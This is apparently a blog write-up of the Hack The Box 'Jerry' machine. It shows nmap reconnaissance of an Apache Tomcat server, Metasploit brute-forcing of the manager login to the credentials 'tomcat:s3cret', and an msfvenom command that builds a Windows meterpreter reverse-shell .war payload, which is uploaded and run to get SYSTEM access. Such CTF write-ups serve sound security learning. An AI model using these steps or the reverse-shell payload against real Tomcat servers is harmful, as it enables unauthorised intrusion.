 ```yaml
---
title: HTB - Jerry writeup
date: 2023-04-02
categories: [ctf, htb, writeup]
tags: [ctf, htb, writeup]
author: cha0s
---
```

# Machine info
---
Name: Jerry \
OS: Windows \
Dificulty: Easy \
[link](https://app.hackthebox.com/machines/144)

---

# Initial recon
---
As always i've started with nmap, and for my surprise, only a single port open

```bash
cha0s@vm:~/ctf/htb/jerry$ nmap -A -p- -T4 --min-rate=500 -Pn 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 11:19 -03
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.44 seconds
```

An apache tomcat instance, just like a "default installation"

![apache tomcat](/assets/img/jerry/Pasted%20image%2020240402125101.png)
_not the actual box screenshot cause i forgot to take it💀_
# Tomcat enumeration
---

Without further thinking, i fired metasploit and runned the `auxiliary/scanner/http/tomcat_mgr_login` module

![msf](/assets/img/jerry/Pasted%20image%2020240402113416.png)

After a few minutes of bruteforce we found:
	`tomcat:s3cret`
Now we have a login for tomcat's manager gui. 
# Exploitation
--- 
Now, we need to get a shell. Since we already inside tomcat webapp as an admin, we can abuse the upload feature to upload an malicious .war file that will allow us to get a reverse shell.

First we create a .war payload using msfvenom. Apart from looking at the machine info and knowing its a windows, we could simply go at the "show status", page and figure out it's a windows server 2012 machine.

To create the payload we use:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<your Tun0> lport=4444 -f war -o xp.war`
![[Pasted image 20240402114516.png]]

Note that i've unziped the .war, that's because we won't get a shell by simply uploading, we also need to run the malicious jsp

Then, we can upload it on tomcat manager gui

![upload](/assets/img/jerry/Pasted%20image%2020240402114540.png)

![completed](/assets/img/jerry/Pasted%20image%2020240402114551.png)
_file uploaded successfully!_

Then visit the page with the file we early extracted

![shell](/assets/img/jerry/Pasted%20image%2020240402114612.png)

And, we get a shell!!!
 
![1](/assets/img/jerry/Pasted%20image%2020240402114657.png)
![2](/assets/img/jerry/Pasted%20image%2020240402114720.png)
# Post exploitation
---

After that we start to gather some information about the machine and for my surprise...

![1337](/assets/img/jerry/Pasted%20image%2020240402114814.png)

We are already the highest windows privileged account.

So i head to the administrator desktop (default location for flags)

![pwned](/assets/img/jerry/Pasted%20image%2020240402114857.png)

And enjoy my 2 flags for the price of one 😋

---

Hope you enjoyed the writeup.
Never stop hacking! 👨‍💻
